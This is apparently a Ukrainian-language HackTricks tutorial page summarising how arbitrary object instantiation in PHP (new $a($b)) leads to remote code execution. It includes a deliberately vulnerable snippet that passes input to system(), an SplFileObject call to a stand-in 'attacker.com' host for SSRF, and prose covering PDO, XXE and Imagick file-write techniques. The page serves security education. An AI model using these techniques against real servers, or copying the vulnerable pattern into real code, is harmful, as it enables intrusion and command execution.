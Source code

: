 # PHP - RCE зловживання створенням об'єктів: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Це, по суті, резюме [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Вступ

Створення нових довільних об'єктів, таких як `new $_GET["a"]($_GET["a"])`, може призвести до віддаленого виконання коду (RCE), як детально описано в [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Цей документ підкреслює різні стратегії для досягнення RCE.

## RCE через користувацькі класи або автозавантаження

Синтаксис `new $a($b)` використовується для створення об'єкта, де **`$a`** представляє ім'я класу, а **`$b`** є першим аргументом, переданим конструктору. Ці змінні можуть бути отримані з введення користувача, як GET/POST, де вони можуть бути рядками або масивами, або з JSON, де вони можуть представлятися як інші типи.

Розгляньте фрагмент коду нижче:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
У цьому випадку, встановлення `$a` на `App` або `App2` і `$b` на системну команду (наприклад, `uname -a`) призводить до виконання цієї команди.

**Функції автозавантаження** можуть бути використані, якщо такі класи не є безпосередньо доступними. Ці функції автоматично завантажують класи з файлів за потреби і визначаються за допомогою `spl_autoload_register` або `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Поведение автозавантаження варіюється в залежності від версій PHP, пропонуючи різні можливості RCE.

## RCE через вбудовані класи

Відсутність користувацьких класів або автозавантажувачів, **вбудовані класи PHP** можуть бути достатніми для RCE. Кількість цих класів коливається від 100 до 200, залежно від версії PHP та розширень. Їх можна перерахувати за допомогою `get_declared_classes()`.

Конструктори, що представляють інтерес, можуть бути ідентифіковані через API рефлексії, як показано в наступному прикладі та за посиланням [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE через специфічні методи включає:**

### **SSRF + Phar десеріалізація**

Клас `SplFileObject` дозволяє SSRF через свій конструктор, що дозволяє підключення до будь-якого URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF може призвести до атак десеріалізації в версіях PHP до 8.0, використовуючи протокол Phar.

### **Використання PDO**

Конструктор класу PDO дозволяє підключення до баз даних через рядки DSN, що потенційно дозволяє створення файлів або інші взаємодії:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Версії PHP до 5.3.22 та 5.4.12 були вразливими до атак XXE через конструктори `SoapClient` та `SimpleXMLElement`, залежно від версії libxml2.

## RCE через розширення Imagick

В аналізі **залежностей проєкту** було виявлено, що **Imagick** може бути використаний для **виконання команд** шляхом створення нових об'єктів. Це створює можливість для експлуатації вразливостей.

### VID парсер

Було виявлено, що можливість VID парсера записувати вміст у будь-який вказаний шлях у файловій системі. Це може призвести до розміщення PHP shell у каталозі, доступному через веб, що досягає віддаленого виконання коду (RCE).

#### VID Parser + Завантаження файлів

Зазначено, що PHP тимчасово зберігає завантажені файли в `/tmp/phpXXXXXX`. VID парсер в Imagick, використовуючи **msl** протокол, може обробляти шаблони в шляхах файлів, що полегшує передачу тимчасового файлу до вибраного місця. Цей метод пропонує додатковий підхід для досягнення довільного запису файлів у файловій системі.

### PHP Збій + Брутфорс

Метод, описаний у [**оригінальному звіті**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), передбачає завантаження файлів, які викликають збій сервера перед видаленням. За допомогою брутфорсу імені тимчасового файлу, стає можливим для Imagick виконати довільний PHP код. Однак цей метод виявився ефективним лише в застарілій версії ImageMagick.

## Посилання

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
